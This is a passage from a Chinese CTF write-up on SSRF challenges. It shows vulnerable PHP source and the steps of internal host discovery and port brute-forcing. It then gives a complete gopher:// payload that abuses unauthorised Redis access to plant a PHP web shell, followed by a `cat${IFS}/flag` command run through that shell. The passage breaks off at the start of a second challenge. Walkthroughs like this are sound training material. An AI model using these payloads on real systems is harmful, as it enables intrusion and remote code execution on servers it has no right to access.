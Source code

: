 ```php
    echo curl_exec($ch);
    curl_close($ch);
}

if(isset($_GET['submit'])){
		$url = $_GET['url'];
		//echo $url."\n";
		if(preg_match('/file\:\/\/|dict|\.\.\/|127.0.0.1|localhost/is', $url,$match))
		{
			//var_dump($match);
			die('别这样');
		}
		curl($url);
}
if(isset($_GET['secret'])){
	system('ifconfig');
}
?>
```
发现过滤了file，dict协议，使用http协议进行内网主机存活探测，使用bp进行爆破，注意buu有限制，1秒访问10次
![](https://img-blog.csdnimg.cn/03de89c5c3294cdcb3fbb764b8534fd5.png)

发现10.10.5.11存在提示，那么我们需要爆破端口，康康有哪些服务，发现开放了6379端口
![](https://img-blog.csdnimg.cn/9770b99dfa93440fb3675dc52f545794.png)

是redis服务，利用redis未授权访问的漏洞
![](https://img-blog.csdnimg.cn/8041a83e94ec400ca697fe617cadc85d.png)
直接使用gopher一把梭
```
gopher://10.10.5.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
最后执行`?url=http://10.10.5.11/shell.php?cmd=cat${IFS}/flag`
![](https://img-blog.csdnimg.cn/d9979fc4ea9940909439576e67acbffe.png)

### [网鼎杯 2020 玄武组]SSRFMe
给出了源码：
```php
<?php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
```
